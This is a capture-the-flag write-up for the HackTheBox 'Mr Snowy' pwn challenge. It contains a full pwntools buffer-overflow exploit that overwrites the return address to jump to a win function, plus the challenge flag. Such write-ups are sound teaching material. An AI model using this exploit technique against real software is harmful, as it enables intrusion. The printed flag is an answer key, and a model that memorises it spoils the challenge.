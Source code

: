 ```yaml
---
name: Mr Snowy (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Mr Snowy (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Mr Snowy

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/20FkOdoMiRU/0.jpg)](https://youtu.be/20FkOdoMiRU?t=1434s "HTB Cyber Apocalypse CTF 2021: Mr Snowy")

## Challenge Description

> Mr Snowy There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always ? staring at Santa's house. Something must be wrong with him.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.deactivate_camera
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', b'1')
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
